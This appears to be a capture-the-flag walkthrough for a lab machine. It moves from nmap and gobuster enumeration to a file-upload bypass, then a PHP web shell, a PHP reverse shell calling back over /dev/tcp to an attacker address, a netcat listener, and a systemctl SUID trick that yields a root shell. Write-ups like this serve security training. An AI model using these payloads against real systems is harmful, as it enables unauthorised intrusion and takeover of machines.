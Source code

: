 # 1. Reconnaissance and Initial Enumeration

## Step 1.1: Nmap Scan
Use nmap to scan the target machine for open ports and services:

`nmap -sC -sV -oN nmap_scan <target_ip>`
	-sC: Runs default scripts.
	-sV: Version detection.
	-oN: Outputs the results to a file (nmap_scan)

## Step 1.2: Analyze the Results
	From the scan, look for:

	HTTP services: A web server may be running on port 80 or another port.
	Other important services like FTP, SSH, or SMB.

# 2. Web Application Enumeration
	Assume we found an HTTP service running on port 3333. Let’s explore the web application.

## Step 2.1: Directory Enumeration
	Use a tool like Gobuster to discover hidden directories or files:
	`gobuster dir -u http://<target_ip>:3333 -w /path/to/wordlist`
	Look for pages like `/internal/` that might contain important resources, such as an upload page

## Step 2.2: Interact with the Web Application	
	Visit `http://<target_ip>:3333/internal/` and inspect the upload functionality:
	Check if there are restrictions on what types of files can be uploaded.

# 3. Bypassing File Upload Restrictions
	I found the upload page (/internal/). The next step is to figure out which file types are allowed.

## Step 3.1: Test Various File Extensions
	Using Python, automate the testing of different file extensions to see which ones the server accepts and processes.
	Python script to automate the upload:

```
import requests

# Target URL (upload page)
url = "http://<target_ip>:3333/internal/"

# List of file extensions to test
extensions = ['php', 'php3', 'php4', 'php5', 'phtml']

# Define the file to upload
test_file_content = "File uploaded"
filename = "test"

# Loop through each extension
for ext in extensions:
    if ext == "phtml":
        file_content = '<?php system($_GET["cmd"]); ?>'  # Simple PHP shell
    else:
        file_content = test_file_content

    print(f"[*] Trying to upload {filename}.{ext}")

    # Create the file name with the current extension
    file_to_upload = (f"{filename}.{ext}", file_content, 'application/octet-stream')
    files = {'file': file_to_upload}

    # Send POST request to upload the file
    response = requests.post(url, files=files)

    # Check if upload was successful
    if response.status_code == 200:
        print(f"[+] {filename}.{ext} uploaded successfully!")
    else:
        print(f"[-] Failed to upload {filename}.{ext}") 
```        
	From testing, .phtml was accepted and executed, making it the valid extension.

# 4. Exploiting the Upload with a Reverse Shell
	Now that we know the .phtml extension works, use it to upload a reverse shell.

## Step 4.1: Modify the Python Script to Upload a Reverse Shell
	Modify the script to upload a reverse shell instead of a basic PHP file.

```
reverse_shell = """<?php
exec("/bin/bash -c 'bash -i >& /dev/tcp/<your-ip>/<your-port> 0>&1'");
?>"""

# Only upload the reverse shell if phtml is accepted
if ext == "phtml":
    file_content = reverse_shell
    print(f"[*] Uploading reverse shell as {filename}.{ext}")
```

## Step 4.2: Set up a Netcat Listener  
	On your local machine, start a listener to catch the reverse shell:
	`nc -lvnp 4444`  
the command nc -lvnp, each option stands for the following:
```
-l: Listen mode. This tells Netcat to listen for incoming connections instead of initiating a connection.
-v: Verbose. This option makes Netcat provide more detailed output about what it’s doing.
-n: No DNS. This prevents Netcat from performing DNS lookups on IP addresses, which can speed up the connection process.
-p: Port. This specifies the port number on which Netcat should listen for incoming connections.
```
## Step 4.3: Trigger the Reverse Shell
	After the reverse shell is uploaded to `http://<target_ip>:3333/internal/uploads/test-revshell.phtml`, visit the URL to trigger it.
	You should receive a shell back in your Netcat listener.

# 5. Post-Exploitation and Enumeration	
	Once we have a reverse shell, start enumerating the system for further exploitation.

## Step 5.1: Stabilize the Shell
	To make the reverse shell interactive, spawn a TTY:
	`python3 -c 'import pty; pty.spawn("/bin/bash")'`
	Set the terminal environment:
	`export TERM=xterm`

## Step 5.2: Explore the File System
	Enumerate the target machine for interesting files. You can start by checking the home directories:
	`ls /home/`

## 6. Privilege Escalation
	After gaining access, the next goal is to escalate privileges to root.

# Step 6.1: Check SUID Binaries	
	Use `find` to look for SUID binaries, which run with elevated privileges:
	`find / -perm -4000 -type f 2>/dev/null`
	Some interesting SUID binaries include:

	`/bin/systemctl`
	`/usr/bin/sudo`
	`/usr/bin/pkexec`

## Step 6.2: Exploit /bin/systemctl for Privilege Escalation
	This step I typed each line seperate
	You can exploit `/bin/systemctl` by creating a malicious service that sets the SUID bit on `/bin/bash`.
```
TF=$(mktemp).service
echo '[Service]
Type=oneshot
ExecStart=/bin/sh -c "chmod +s /bin/bash"

[Install]
WantedBy=multi-user.target' > $TF

/bin/systemctl link $TF
/bin/systemctl enable --now $TF
```
	After running this, execute:
	`/bin/bash -p`
	This gives you a root shell.

# 7. Accessing Flags
	Once you have root access, you can access protected files, such as:
	Note: Bill's txt file could be read without root priv.
	User flag (/home/bill/user.txt)
	Root flag (/root/root.txt)	

## Conclusion
I started with reconnaissance to identify the open services.
I found an upload vulnerability in the web app, exploited it to upload a reverse shell, and gained access as www-data.
From there, I performed privilege escalation using SUID binaries to become root.
